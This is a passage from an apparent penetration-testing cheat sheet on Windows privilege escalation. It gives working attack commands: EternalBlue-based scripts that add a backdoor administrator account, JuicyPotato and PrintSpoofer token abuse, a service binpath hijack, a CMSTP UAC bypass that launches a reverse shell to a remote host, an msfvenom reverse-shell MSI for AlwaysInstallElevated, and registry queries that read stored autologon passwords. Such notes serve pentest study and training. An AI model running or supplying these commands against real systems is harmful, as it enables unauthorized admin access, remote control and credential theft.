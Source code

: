     - Prepare msf reverse shell exe
    - run `send_and_execute.py` 
        - Maybe need to change username to `guest`
    - If can't reply some port
        - use `zzz_exploit.py` , change `smb_pwn`  function 
        - `service_exec(conn,r'cmd /c net user /add meow Me0www')` 
        - `service_exec(conn,r'cmd /c net localgroup administrators meow /add')`
- [Cerrudo](https://github.com/Re4son/Churrasco)
    - Windows Server 2003
- [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip)
    - `ms15-051x64.exe whoami`
- [JuicyPotato x64](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe) , [x86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe)
    - User have `SeImpersonate` or `SeAssignPrimaryToken` by `whoami /priv`
    - `JuicyPotato.exe -l 1337 -p shell7878.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`
        - `-c` (Include curly brackets)
            - CLSID from https://ohpe.it/juicy-potato/CLSID/
        - `-p` Exe Program 
        - Not work for Windows Server 2019 and Windows 10 versions 1809 and higher.
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
    - Windows Server 2019 and Windows10
    - `SeImpersonatePrivilege` Enable 
    - `PrintSpoofer.exe -i -c cmd`
- [XP SP0 \~ SP1](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
    -  `net start SSDPSRV`
    -  `sc config SSDPSRV start= auto`
    -  `sc qc SSDPSRV`
    -  `net start SSDPSRV`
    -  `sc config upnphost binpath= "C:\{abs_path_for_reverse_shell_exe}`
    -  `sc config upnphost obj= ".\LocalSystem" password= ""`
    -  `sc qc upnphost`
    -  `net start upnphost`
### Bypass UAC
- [CVE-2019-1388](http://blog.leanote.com/post/snowming/38069f423c76)
- [CMSTP UAC Bypass](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
    - `Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"`
    - `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))`
    - `[CMSTPBypass]::Execute("C:\Users\Batman\tshd_windows_amd64.exe -c 10.10.10.10 -p 8787")`
### Bypass CLM
- IF powershell `$ExecutionContext.SessionState.LanguageMode` return `ConstrainedLanguage` = Constrained Language Mode, CLM ; `FullLanguage` = No Limit
- Meterperter
    - `load powershell`
    - `powershell_shell`
    - `$ExecutionContext.SessionState.LanguageMode` -> should return `FullLanguage`
### Registry
- AlwaysInstallElevated
    - If both set to 1
        - `reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        - `reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    - Can install file with
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f msi -o shellx64.msi`
        - `msiexec /quiet /i shellx64.msi`
    - But need to check where can install (AppLocker)
        - `Get-AppLockerOolicy -Effective | Select -Expandproperty RuleCollections`
- Auto login
    - `reg query HKCU\Software\Microsoft\Windows NT\Currentversion\WinLogon /v DefaultUserName`
    - `reg query HKCU\Software\Microsoft\Windows NT\Currentversion\WinLogon /v DefaultPassword`
